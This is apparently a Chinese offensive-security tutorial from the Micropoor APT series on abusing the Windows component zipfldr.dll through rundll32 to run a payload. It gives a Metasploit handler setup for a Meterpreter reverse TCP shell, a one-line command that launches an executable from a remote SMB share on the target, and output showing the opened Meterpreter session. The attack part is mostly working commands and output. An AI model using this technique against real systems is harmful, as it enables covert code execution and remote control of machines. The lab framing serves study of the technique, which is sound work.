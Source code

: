 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

**zipfldr.dll简介：**
zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件。

**说明：**zipfldr.dll所在路径已被系统添加PATH环境变量中，因此，zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

Windows 2003 默认位置：
`C:\Windows\System32\zipfldr.dll
C:\Windows\SysWOW64\zipfldr.dll`

Windows 7 默认位置：
`C:\Windows\System32\zipfldr.dll
C:\Windows\SysWOW64\zipfldr.dll`

**攻击机：** 
192.168.1.4 Debian
**靶机：** 
192.168.1.3 Windows 7
192.168.1.3 Windows 2003

**配置攻击机msf：**
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/9fef673f4302344108c99ae65736192b.jpg)

**靶机执行：**

`rundll32.exe zipfldr.dll,RouteTheCall \\192.168.1.119\share\rev_x86_53_exe.exe`
![](media/7897dfacc157ca226256c698c2c468a0.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.3
[*] Meterpreter session 7 opened (192.168.1.4:53 ‐> 192.168.1.3:5245) at
2019‐01‐21 04:55:44 ‐0500

meterpreter > getuid
Server username: John‐PC\John
meterpreter > getpid
Current pid: 6988 
```
![](media/c702b7cef88aa93a5dadb129d20b4917.jpg)

>   Micropoor
